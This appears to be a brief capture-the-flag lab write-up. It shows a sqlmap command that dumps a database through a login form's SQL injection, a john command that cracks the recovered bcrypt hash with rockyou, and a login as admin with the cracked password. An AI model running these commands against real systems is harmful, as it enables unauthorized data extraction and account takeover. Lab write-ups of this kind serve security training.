




this is sql injection vulnerability so we gonna use sqlmap to do it but we need to start to check payload from request first via burp
as u can see they use username=&password= so let's tart sqlmap
sqlmap -u 'http://94.237.58.224:36425/' --method="POST" --data="username=test&password=test" -p username --level 5 --risk 3 -batch --dump --dbms="MySQL" --ignore-code=401,500 

we got credential now and next we need to solve the hash via john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
then login via admin and password123
